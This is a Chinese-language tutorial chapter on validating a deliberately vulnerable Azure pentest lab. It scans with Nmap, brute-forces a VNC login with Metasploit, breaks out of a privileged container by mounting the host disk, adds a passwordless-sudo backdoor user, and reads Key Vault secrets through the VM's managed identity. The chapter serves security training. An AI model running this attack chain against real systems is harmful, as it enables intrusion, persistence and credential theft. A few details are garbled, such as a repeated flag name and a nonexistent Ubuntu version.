需要注意的是，当前的实现并不完美，在处理其他场景（如虚拟机实例重启以及容器重启）之前，还需要进行一些额外的调整和升级。可以随时利用并结合上一章中使用的一些技巧，进一步提升我们在 Azure 环境中运行的功能。

现在我们已经准备好一切，可以继续在我们的实验室环境中模拟一次渗透测试。

# 在隔离网络环境中模拟渗透测试

由于我们在 Microsoft Azure 中的实验环境已经成功设置，我们现在可以继续进行简化的渗透测试模拟，以验证一切是否（错误地）配置正确。与上一章相比，本章中的渗透测试模拟会稍微长一些，因为我们正在处理一个相对更复杂的设置：


图 5.18 – 渗透测试模拟

我们的模拟从攻破运行在虚拟机实例中的`Metasploitable 2` 容器开始。鉴于这个运行中的容器已配置了启用 `--privileged` 标志，我们可以使用容器突破技术逃离容器环境，并访问主机系统，在那里我们将找到第一个标志。接着，我们将利用分配给虚拟机实例的系统分配的托管身份，访问 Azure 密钥库，在那里我们将找到第二个标志。

在我们的渗透测试模拟中，我们将使用`Metasploit`——一个广泛认可的渗透测试框架，安全专家普遍使用它。我们将使用名为`msfconsole`的 Metasploit 框架交互式命令行界面。这个命令行界面允许我们执行任务，如搜索漏洞、利用系统、进行侦察、管理会话，以及启动各种与安全相关的模块和利用工具。使用它通常涉及以下几个步骤：

1.  在终端中运行`msfconsole`命令启动交互式控制台。

1.  从 Metasploit 提供的全面模块集合中识别和选择一个模块（例如，利用模块）。

1.  通过调整其参数和设置来配置该模块。

1.  运行该模块。

1.  探索并使用其他模块进行后续的后渗透行动。

请注意，这是一种简化的方式来描述如何使用`msfconsole`，因为 Metasploit 框架内有各种高级功能、模块和配置。根据场景，可以利用`msfconsole`中的额外选项，如辅助模块、后渗透技术、脚本功能，以及与外部工具的集成。如果你以前没有使用过 Metasploit，不用担心——本节中的逐步指南将帮助你利用这个框架和其他工具与技术来验证我们的实验环境是否被（错误）配置正确。

我们将把这一部分分成四个子部分：

+   *第一部分 / 4 – 使用 Nmap 进行扫描*

+   *第二部分 / 4 – 使用 Metasploit 的 VNC 登录扫描器模块*

+   *第三部分 / 4 – 从* *容器中突破*

+   *第四部分 / 4 – 定位* *旗标*

重要提示

攻击另一个用户或公司拥有的云资源是违背道德和非法的。在继续之前，请确保你已经阅读了*《在云中构建渗透测试实验环境时的注意事项》*部分，来自*《云中渗透测试实验入门》*的*第一章*，因为我们将模拟攻击过程，以验证目标虚拟机实例中运行的应用程序和服务中的配置错误和漏洞是否可以被利用。

考虑到这些，我们现在可以开始渗透测试模拟。

## 第一部分 / 4 – 使用 Nmap 进行扫描

按照以下步骤操作：

1.  让我们打开一个新的浏览器标签页，使用以下网址访问桌面环境：

    ```
     http://<ATTACKER VM PUBLIC IP ADDRESS>:8081/vnc.html
    ```

    确保你将`<ATTACKER VM PUBLIC IP ADDRESS>`替换为运行`terraform** **apply`命令后得到的`vm_kali_public_ip`输出值：

    

    图 5.19 – noVNC 欢迎界面

    这应该会打开一个带有**连接**按钮的欢迎界面，类似于*图 5.19*中的内容。

重要提示

如果你无法访问欢迎界面，可能是你的 IP 地址已经发生变化。只需更新 `terraform.tfvars` 文件，然后再次运行 `terraform apply` 命令，以更新防火墙规则，允许你的新 IP 地址通过。

1.  点击 **连接** 按钮，然后使用 `kali123` 密码（或本章之前指定的密码）访问桌面环境，类似于 *图 5.20* 中的操作：

    图 5.20 – 在浏览器中访问 Kali Linux 桌面/GUI 环境

    一旦我们能够访问桌面环境，就可以执行各种任务并访问 Kali Linux 中广泛的工具和实用程序（类似于我们在本地计算机上使用它的方式）。

1.  通过点击 *图 5.21* 中高亮的图标，打开 Kali Linux 实例中的终端窗口：

    图 5.21 – 打开终端窗口

    这应该会打开一个终端窗口，我们可以在 `$` 符号后运行命令。

1.  将 `TARGET_IP` 变量的值设置为目标虚拟机的私有 IP 地址：

    ```
     TARGET_IP=<PRIVATE IP ADDRESS OF TARGET VM>
    ```

    确保将 **<目标虚拟机的私有 IP 地址>** 替换为目标虚拟机实例的私有 IP 地址（例如，**10.0.1.4**）。

注意

请注意，目标虚拟机的私有 IP 地址可能会有所不同。可以通过在 Cloud Shell 终端中的 `~/pentest_lab` 目录下运行 `terraform output` 来检查 Terraform 输出值 (`vm_target_private_ip`)。

1.  让我们首先运行以下命令：

    ```
    nmap --top-ports 1000 $TARGET_IP
    ```

    这应该会生成一个扫描报告，类似于 *图 5.22* 中的结果：

    

    图 5.22 – 再次运行 nmap 命令后的结果

    *刚刚发生了什么？* 在这里，我们使用 Nmap 检查并扫描了目标虚拟机实例上的开放端口。为了快速检查开放端口，我们在运行 Nmap 时使用了 `--top-ports` 选项。这样，我们可以在短短几秒钟内获得（非详尽的）扫描结果：

    

    图 5.23 – 使用 Nmap 扫描开放端口

    由于我们将容器的一些端口映射到虚拟机，因此实际上我们也在使用 Nmap 扫描和检查 Metasploitable 2 容器内运行的服务。

注意

可以随时查看我们用于配置目标虚拟机实例 (`vm-target`) 的启动脚本，详细信息请见：[`github.com/PacktPublishing/Building-and-Automating-Penetration-Testing-Labs-in-the-Cloud/blob/main/ch05/pentest_lab/target_vm/boot-script.sh`](https://github.com/PacktPublishing/Building-and-Automating-Penetration-Testing-Labs-in-the-Cloud/blob/main/ch05/pentest_lab/target_vm/boot-script.sh)。

1.  接下来，让我们运行相同的命令，但这次启用 `-sV`（服务版本检测）和 `-sV`（TCP SYN 扫描）标志：

    ```
    nmap --top-ports 1000 -sV -sS $TARGET_IP
    ```

    这应该会生成一个扫描报告，类似于 *图 5.24* 中的结果：

    

    图 5.24 – 再次运行 nmap 命令后的结果

    在这里，我们可以看到，启用 `-sV` 和 `-sS` 标志后，我们可以确定目标虚拟机实例中每个端口上运行的服务的特征（例如版本或指纹）。

注意

此步骤可能需要大约 4-10 分钟才能完成。在等待时，不妨喝杯咖啡或茶！

## 第二部分 共 4 部分 – 使用 Metasploit 的 VNC 登录扫描器模块

请按照以下步骤操作：

1.  在前一组步骤中，我们使用 Nmap 来识别打开的端口以及每个端口上运行的服务。虽然有多个端口处于开放状态，但我们将重点关注端口 `5900`，并使用 Metasploit 的 VNC 登录辅助扫描器模块，尝试使用不同的用户名和密码组合进行身份验证：

    图 5.25 – 使用 VNC 登录辅助扫描器进行身份验证

    使用扫描器，我们将检查是否使用弱密码或默认凭证来访问正在运行的 VNC 服务器进程（应用程序）。现在我们更好地理解了 VNC 登录辅助扫描器的工作原理，让我们执行以下命令：

    ```
    msfconsole
    ```

    这将启动 Metasploit Framework 控制台，类似于我们在 *图 5**.26* 中看到的：

    

    图 5.26 – Metasploit Framework 控制台

    请注意，`msfconsole` 可能需要一两分钟才能准备好。

注意

如果你还不知道，Metasploit Framework 是一个使用 Ruby 语言编写的框架！即使你之前没有使用 Ruby 编写脚本或构建应用程序，你也能理解用这种语言编写的代码。若想了解扫描器背后的工作原理，可以查看官方的 Metasploit Framework GitHub 仓库：[`github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/vnc/vnc_login.rb`](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/vnc/vnc_login.rb)。

1.  现在，在 `msfconsole` 中运行以下命令：

    ```
    search vnc login
    ```

    这将搜索模块数据库并返回一组结果，类似于我们在 *图 5**.27* 中看到的：

    

    图 5.27 – 执行搜索 VNC 登录命令后的结果

    由于我们计划通过 VNC 扫描并尝试登录，我们将在下一步中选择第一个（**auxiliary/scanner/vnc/vnc_login**）。

注意

在这里，你会注意到模块路径（**auxiliary/scanner/vnc/vnc_login**）与文件路径（**auxiliary/scanner/vnc/vnc_login.rb**）匹配，其中 Ruby 代码存储在 `modules` 目录中（没有 *.rb* 文件扩展名）。这意味着，如果我们需要检查一个模块的实现方式，我们可以直接在 Metasploit Framework GitHub 仓库中找到对应的文件。

1.  接下来，执行以下命令以使用 VNC 登录辅助扫描器模块：

    ```
    use auxiliary/scanner/vnc/vnc_login
    ```

    运行此命令将使系统准备好继续配置和执行模块。

1.  现在我们已经选择了 VNC 登录辅助扫描器模块，让我们运行以下命令来配置`RHOST`（远程主机）变量，使用目标虚拟机的私有 IP 地址：

    ```
    set RHOST <PRIVATE IP ADDRESS OF TARGET VM>
    ```

    在运行命令之前，请确保将**<目标虚拟机的私有 IP 地址>**替换为目标虚拟机实例的私有 IP 地址。

1.  在运行扫描器之前，让我们快速检查一下我们拥有的设置和选项：

    ```
    show options
    ```

    这应该返回一个模块选项列表，类似于*图 5**.28*中的内容：

    

    图 5.28 – 执行显示选项命令后的输出

    在这里，我们可以看到每个模块选项的描述，以及哪些选项是必需的。如*图 5`.`28*所示，所有必需选项已经设置好。

1.  一切准备就绪后，让我们运行扫描器：

    ```
    run
    ```

    这应该给我们以下结果：

    

    图 5.29 – 执行运行命令后的输出

    在这里，我们可以看到我们应该能够使用`password`登录。哇！虽然这可能看起来有点太容易了，但用户和管理员经常忽视更改默认或弱密码的重要性，从而为渗透测试中的利用提供了方便的入口点。

1.  现在，让我们退出`msfconsole`：

    ```
    exit
    ```

1.  回到我们的终端控制台（已经退出**msfconsole**），让我们运行以下命令来检查`$TARGET_IP`变量值是否仍然设置：

    ```
    echo $TARGET_IP
    ```

    如果不能，只需再次将其设置为目标虚拟机实例的私有 IP 地址。

1.  让我们检查是否能够登录 VNC 服务器：

    ```
    vncviewer $TARGET_IP
    ```

    在使用`password`作为密码后，应该会打开一个类似于*图 5**.30*中的窗口：

    

    图 5.30 – 使用 vncviewer 访问 Metasploitable 2 容器

    在这里，重要的是要注意我们正在运行在 VM 实例内部的 Metasploitable 2 容器中。*我们如何知道这一点？* *嗯，首先，我们设计并构建了这个渗透测试实验室设置！* 开玩笑的，我们将在接下来的步骤中确认这一点。

注意

请注意，作为替代，我们可以运行`echo "password" | vncviewer $TARGET_IP -autopass`来完成相同的操作。

1.  让我们在**TightVNC: root’s X` **desktop`窗口内的终端窗口中运行以下命令：

    ```
    id
    ```

    这应该返回`uid=0(root)** **gid=0(root) groups=0(root)`。

1.  接下来，运行以下命令：

    ```
    lsb_release -a
    ```

    我们将看到我们正在在一个`Ubuntu 8.04`“环境”中运行此命令，类似于*图 5**.31*所示：

    

    图 5.31 – 在容器内运行 lsb_release -a 后的结果

    这是预期结果，因为我们在目标虚拟机实例内部运行的 Metasploitable 2 容器中。

注意

请注意，这只是利用`Metasploitable 2`的方式之一。有关更多信息，欢迎访问[`docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/`](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)。

## 第三部分，第四部分 – 突破容器限制

此时，我们目前处于运行中的 Metasploitable 2 容器内。现在，让我们检查是否能够突破容器限制！


图 5.32 – 突破容器限制

容器突破技术涉及利用 Docker 环境中的漏洞，获取容器外的未经授权的访问权限。技术手段从内核漏洞、共享命名空间到不安全的容器配置不等。在这一部分，我们将运行一系列命令突破处于特权模式下的容器：

1.  让我们快速检查并列出所有现有的磁盘分区，使用`fdisk -l`命令：

    ```
    fdisk -l
    ```

    这应该显示系统上的磁盘分区，提供关于其大小、类型和文件系统的信息，类似于*图 5.34*所示：

    

    图 5.33 – 运行 fdisk -l 命令后的输出

    在这里，我们可以看到，我们可以尝试将`/dev/sda1`分区挂载到`/mnt`（这是我们在下一步中将要做的！）。

1.  接下来，让我们使用以下命令将`/dev/sda1`分区挂载到`/mnt`目录：

    ```
    mount /dev/sda1 /mnt
    ```

1.  让我们进入`/mnt`目录，然后在该目录内执行`chroot`：

    ```
    cd /mnt
    chroot .
    ```

    在这里，我们使用`chroot`命令来突破容器的限制。

1.  使用以下命令检查当前用户的身份信息：

    ```
    id
    ```

    这应该输出以下内容：

    ```
    uid=0(root) gid=0(root) groups=0(root)
    ```

1.  让我们使用以下命令检查操作系统的具体发行版和版本：

    ```
    lsb_release -a
    ```

    你会惊讶地发现我们现在看到的是`Ubuntu 22.02 LTS`，而不是`Ubuntu 8.04`！

    

    图 5.34 – 运行 lsb_release -a 命令后的输出

    *这意味着我们已经成功地突破了容器的限制*，并且应该能够以虚拟机实例的 root 用户身份运行某些命令！

注意

运行带有`--privileged`标志的容器授予容器对主机系统资源的无限制访问权限。由于启用此标志时隔离和安全机制被禁用，因此攻击者（或充当攻击者的人）可以使用各种容器突破技术突破容器的限制。我们不会深入讨论这个话题的细节，欢迎查阅其他在线资源。

1.  打开一个 Firefox 浏览器（在 Kali Linux 桌面环境中），并导航到以下网址：

    ```
     bit.ly/create-ssh-user
    ```

    这应该打开一个页面，类似于*图 5.35*所示：

    

    图 5.35 – 我们将在接下来的步骤中使用的命令

    这里，我们有一个参考命令的列表，将在后续步骤中使用。虽然这一步是可选的，但拥有一个备忘单或参考资料会很方便，因为在键入和运行这些命令时，我们可能会不小心漏掉一个或两个字符！

注意

这个缩短的链接将打开以下 GitHub Gist：[`gist.githubusercontent.com/joshualat/bec319f607001e1ffd69d41d031a5526/raw/030e7efc13bddfb64fb50935fe0487054589dcdc/create_user.sh`](https://gist.githubusercontent.com/joshualat/bec319f607001e1ffd69d41d031a5526/raw/030e7efc13bddfb64fb50935fe0487054589dcdc/create_user.sh)。

1.  现在，返回 VNC 查看器窗口内的终端（**TightVNC: root 的 X 桌面**）。让我们通过运行以下命令（逐行）创建一个新用户：

    ```
    NEW_USER=new_user
    adduser --disabled-password --gecos "" $NEW_USER
    echo "$NEW_USER ALL=(ALL) NOPASSWD:ALL" | tee -a /etc/sudoers >/dev/null
    ```

重要提示

在键入和运行这些命令时要小心！确保检查所使用的命令、标志和参数的拼写和大小写。最后，也要注意空格。

1.  接下来，通过运行以下命令（逐行）设置新用户的 SSH 访问所需的先决条件：

    ```
    mkdir -p /home/$NEW_USER/.ssh
    chown $NEW_USER:$NEW_USER /home/$NEW_USER/.ssh
    chmod 700 /home/$NEW_USER/.ssh
    echo "$NEW_USER:password" | chpasswd
    systemctl restart ssh
    ```

    运行前一个命令块中的最后一行后，我们应该会收到一个`System has not been booted with systemd as init system...`消息，类似于*图 5**.36*所示：

    

    图 5.36 – 创建一个新的 SSH 用户

    此时，我们应该能够通过 SSH 直接访问 VM 实例，使用`new_user`用户。

1.  关闭 VNC 查看器（**TightVNC: root 的 X 桌面**）窗口，以及关闭 Firefox 浏览器窗口。

1.  回到我们的终端 shell（之前我们运行过**vncviewer $TARGET_IP**），快速检查`$TARGET_IP`变量值是否仍设置为目标 VM 实例的私有 IP 地址：

    ```
    echo $TARGET_IP
    ```

    这将产生一个类似于`10.0.1.4`的 IP 地址值。

注意

如果您在终端中键入时遇到奇怪的字符，请简单地关闭 noVNC 浏览器标签页（我们可以访问 Kali Linux 桌面环境的地方）。之后，在新的浏览器标签页中重新打开它，并检查问题是否已解决。

1.  让我们检查我们是否能够为新用户正确设置 SSH 访问（类似于*图 5**.37*）：

    图 5.37 – 使用 new_user 帐户通过 SSH 访问目标实例

    在这里，我们将尝试使用上一组步骤中创建的`new_user`帐户进行身份验证。

    准备就绪后，运行以下命令：

    ```
    ssh new_user@$TARGET_IP
    ```

    在提示输入密码时，请使用`password`继续：

    

    图 5.38 – 通过 SSH 访问目标 VM

    如果所有步骤都正确执行，我们应该能够通过 SSH 访问目标 VM 实例，类似于*图 5**.38*。

1.  最后，让我们使用以下命令切换到`root`用户：

    ```
    sudo su
    ```

    *这不是很有趣吗？* 现在，让我们继续搜索标志！

## 第四部分/4 – 定位标志

按照这些步骤操作：

1.  让我们通过运行以下命令来定位第一个标志：

    ```
    find / -type f -name "flag*"
    ```

    这将搜索整个文件系统，查找文件名以 `flag` 开头的文件。几分钟后，我们应该会得到一个结果列表，其中包括 `/root/flag1.txt` 文件：

    ```
    ... /root/flag1.txt
    ...
    ```

1.  现在，让我们检查 `/root/flag1.txt` 文件的内容：

    ```
    cat /root/flag1.txt
    ```

    这应该会给我们`FLAG # 1!`。完成一个，剩下一个！

注意

在设置渗透测试实验室环境时，您可以随意使用加密哈希函数或随机字符串生成器生成唯一的标志值。

1.  让我们检查 Azure CLI 是否已安装：

    ```
    which az
    ```

    这应该会返回 `/usr/bin/az` 路径。

1.  现在，使用以下命令检查版本：

    ```
    az --version
    ```

    这应该会给我们工具的版本号（以及其依赖项），类似于*图 5.39*所示：

    

    图 5.39 – 运行 az --version 命令后的结果

    在这里，我们可以看到版本 `2.49.0` 当前已安装在目标 VM 实例中。现在我们已经验证了可以在 VM 实例内使用 Azure CLI，让我们尝试使用以下命令进行登录：

    ```
    az login --identity
    ```

    在这里，我们使用 VM 实例的系统分配托管身份进行身份验证，无需（显式）提供凭据：

    

    图 5.40 – 运行 az login --identity 命令后的结果

    在*图 5.40*中，我们可以看到我们已经使用目标 VM 实例的系统分配身份进行了登录。

1.  让我们检查是否可以使用 Azure CLI（在 VM 实例内）从终端列出所有 Azure Key Vault，类似于*图 5.41*所示：

    图 5.41 – 从 VM 实例访问 Azure Key Vault

    我们可以通过 Azure CLI 检查一些内容，但我们将继续检查 Azure Key Vault 资源，因为我们正在验证实验环境是否已正确配置。

    话虽如此，让我们运行以下命令：

    ```
    az keyvault list
    ```

    这应该会返回一个嵌套结构，类似于*图 5.42*所示：

    

    图 5.42 – 运行 az keyvault list 命令后的结果

    等一下！我们是怎么能够使用 `az keyvault list` 命令的？看起来目标 VM 实例的系统分配身份允许我们进行身份验证并与 Azure Key Vault 互动，而无需显式的身份验证凭据或秘密！

重要提示

请注意，根据您在 `target_vm/main.tf` Terraform 配置文件中配置的 `azurerm_key_vault.keyvault` 资源，您将获得不同的金库名称值。

1.  接下来，让我们运行以下命令列出存储在 `rg-01-key-vault` 中的所有秘密：

    ```
    az keyvault secret list --vault-name rg-01-key-vault
    ```

    确保将 `rg-01-key-vault` 替换为您在上一步骤中运行命令后获取的实际金库 **名称** 值。这应该会返回一个嵌套结构，类似于*图 5.43*所示：

    

    图 5.43 – 运行 az keyvault secret list 命令后的结果

    在这里，我们可以看到我们存储了一个名为 `flag2` 的密钥。*这个密钥映射的值是什么？* 我们将在下一步中找出！

1.  最后，让我们检索 `flag2` 密钥的值。再次确保你用实际的 Key Vault 名称替换 `az keyvault list` 命令运行后检索到的 `rg-01-key-vault`：

    ```
    az keyvault secret show --vault-name rg-01-key-vault --name "flag2"
    ```

    这应该返回一个类似于我们在 *图 5**.44* 中看到的嵌套的 JSON 输出：

    

    图 5.44 – 运行 az keyvault secret show 命令后的结果

    在这里，我们可以看到 `flag2` 密钥的值是 `FLAG #** **2!`。

1.  让我们运行相同的命令，这次将 `"value"` 指定为 `--query` 参数值。确保你用运行 `az keyvault list` 命令后检索到的 Key Vault `name` 值替换 `rg-01-key-vault`：

    ```
    az keyvault secret show --vault-name rg-01-key-vault --name "flag2" --query "value"
    ```

    而不是嵌套的 JSON 输出，我们应该得到 `FLAG # 2!` 字符串值。*看起来我们成功检索到了* *第二个标志！*

注意

需要注意的是，我们只是初步了解了 Azure Key Vault 的功能。欲了解更多信息，请访问 [`learn.microsoft.com/en-us/azure/key-vault/general/manage-with-cli2`](https://learn.microsoft.com/en-us/azure/key-vault/general/manage-with-cli2)。

现在，你可能很兴奋尝试其他漏洞利用和技术！鉴于我们已自动化设置过程，我们只需运行 `terraform destroy -auto-approve` 来删除资源，然后再次运行 `terraform apply -auto-approve` 来重新构建整个环境。请注意，也可以通过运行类似以下的（一行）命令来仅重建环境的特定组件：

```
terraform apply -replace=module.target_vm.azurerm_linux_virtual_machine.vm_target -auto-approve
```

运行此命令将销毁并重新创建目标 VM 实例，以及与之相关或依赖于它的其他资源。鉴于渗透测试活动可能导致基础设施处于不稳定或配置错误的状态，重建基础设施将使其恢复到期望的状态。

注意

*首先，* `new_user` *用户不应该存在，对吧？* 也就是说，重新创建目标 VM 实例（以及环境中的其他资源）将使设置恢复到“未触及”的状态。

# 清理中

清理我们创建或部署的云资源是处理易受攻击的云应用和环境时的关键步骤。如果我们不立即清理和删除我们创建的资源，可能会导致支付未使用的云资源费用。此外，这些云资源可能会受到恶意用户的攻击。至少，我们将支付以下资源运行的时间：

+   1 x `Standard_DS1_v2` Azure VM 实例用于攻击者机器

+   1 x `Standard_D2s_v3` Azure VM 实例用于目标机器

请注意，我们还需要考虑其他费用——包括数据传输费用、实例使用的持久数据存储成本，以及账户中可能使用的其他 Azure 服务的费用，还有与 Azure 资源使用相关的任何适用税费。

注释

由于运行这些资源的总体成本取决于多个参数，因此最好参考云平台提供的定价文档页面：[`azure.microsoft.com/en-us/pricing/details/virtual-machines/`](https://azure.microsoft.com/en-us/pricing/details/virtual-machines/)。由于我们在实验环境中使用了 Azure Key Vault，也可以查看以下页面：[`azure.microsoft.com/en-us/pricing/details/key-vault/`](https://azure.microsoft.com/en-us/pricing/details/key-vault/)。你还可以使用**Azure 定价计算器**来估算在 Azure 上部署资源的成本。可以通过以下链接访问 Azure 定价计算器：[`azure.microsoft.com/en-us/pricing/calculator/`](https://azure.microsoft.com/en-us/pricing/calculator/).

话虽如此，让我们继续删除本章中创建的资源：

1.  关闭我们用来访问 Kali Linux 桌面环境的浏览器标签。

1.  在 Cloud Shell 终端中，导航到`~/pentest_lab`目录，然后使用`terraform destroy`来清理我们之前创建的资源：

    ```
    cd ~/pentest_lab
    terraform destroy -auto-approve
    ```

    如果有些资源未能删除（或删除需要一点时间），可以多次运行`terraform destroy`命令。或者，如果失败了，你也可以通过用户界面手动删除资源。

注释

此步骤可能需要 10 到 15 分钟才能完成。

1.  使用以下命令验证资源是否已成功销毁：

    ```
    terraform show
    ```

    这应该返回空响应，因为所有资源应该已成功删除。

重要提示

你可以自由地对你的 Microsoft Azure 账户进行全面审核。这将帮助确保所有资源已正确删除，减少意外费用的风险，并解决任何潜在的安全问题。

就是这样！此时，我们应该已经对如何在 Microsoft Azure 上准备渗透测试实验环境有了清晰的了解。我们在上一节中进行的渗透测试模拟应验证我们实验环境是否已被（错误）配置正确。

# 总结

本章我们重点讲解了如何在 Microsoft Azure 上设置渗透测试实验环境。我们准备了一个按设计存在漏洞的实验环境，在这里我们可以练习容器突破技术，以便获得对宿主系统的未授权访问。我们的实验环境还突出了在 Azure 中托管身份的潜在误用，因为这些身份无意中为攻击者创造了其他可利用的攻击路径。在设置好一切后，我们进行了渗透测试模拟，验证我们的实验环境是否已被（误）配置正确。

在下一章，我们的重点将转向在 AWS 上准备渗透测试实验环境。除了设置一个隔离的网络环境外，我们还将专注于准备一个实验环境，在这里我们可以练习枢轴技术，通过最初被攻破的机器访问内部系统和网络。如果你迫不及待地想学习如何建立一个枢轴实验室，那么下一章将非常适合你！

# 进一步阅读

关于本章涵盖主题的更多信息，以下资源可能会对您有所帮助：

+   *从您的应用程序连接到资源而无需处理* *凭证* ([`learn.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/overview-for-developers?tabs=portal%2Cdotnet`](https://learn.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/overview-for-developers?tabs=portal%2Cdotnet))

+   *Azure 资源的托管身份如何与 Azure 虚拟* *机* 配合使用 ([`learn.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-managed-identities-work-vm`](https://learn.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/how-managed-identities-work-vm))

+   *Azure Key* *Vault 中的身份验证* ([`learn.microsoft.com/en-us/azure/key-vault/general/authentication`](https://learn.microsoft.com/en-us/azure/key-vault/general/authentication))

+   *使用 Azure* *CLI* 管理 Key Vault ([`learn.microsoft.com/en-us/azure/key-vault/general/manage-with-cli2`](https://learn.microsoft.com/en-us/azure/key-vault/general/manage-with-cli2))

+   *使用 Azure Key* *Vault 的最佳实践* ([`learn.microsoft.com/en-us/azure/key-vault/general/best-practices`](https://learn.microsoft.com/en-us/azure/key-vault/general/best-practices))

+   *Metasploitable 2 可利用性* *指南* ([`docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/`](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/))

+   *什么是 Microsoft 成本管理和* *计费？* ([`learn.microsoft.com/en-us/azure/cost-management-billing/cost-management-billing-overview`](https://learn.microsoft.com/en-us/azure/cost-management-billing/cost-management-billing-overview))

+   *如何通过成本* *管理* 优化你的云投资 ([`learn.microsoft.com/en-us/azure/cost-management-billing/costs/cost-mgt-best-practices`](https://learn.microsoft.com/en-us/azure/cost-management-billing/costs/cost-mgt-best-practices))

+   *YouTube 播放列表 – Azure 成本* *管理* ([`www.youtube.com/playlist?list=PLLasX02E8BPBJW49E5_sHgbgvztb4oz6D`](https://www.youtube.com/playlist?list=PLLasX02E8BPBJW49E5_sHgbgvztb4oz6D))
